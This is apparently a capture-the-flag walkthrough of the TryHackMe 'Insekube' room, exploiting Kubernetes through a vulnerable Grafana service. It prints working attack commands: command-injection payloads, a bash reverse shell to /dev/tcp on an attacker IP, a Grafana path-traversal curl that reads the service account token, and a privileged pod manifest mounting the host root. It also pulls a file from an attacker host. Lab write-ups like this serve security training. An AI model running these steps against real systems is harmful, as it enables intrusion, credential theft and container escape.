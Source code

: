 <a href="https://tryhackme.com/room/insekube"> Insekube </a>
Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

Task 1

nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
This will give us answer rot the first question.


Task 2

On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)

We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1

Task 3

No answer needed

Task 4

We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

Task 5

Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
curl http://grafana:3000/login/ - Text is long but it is easy to find ;)
 

Task 6

I had trouble with running exploit but when googling around I have found solution
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

Task 7

First we need to prepare .yaml file

apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /

 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use find / -type f -name root.txt
   

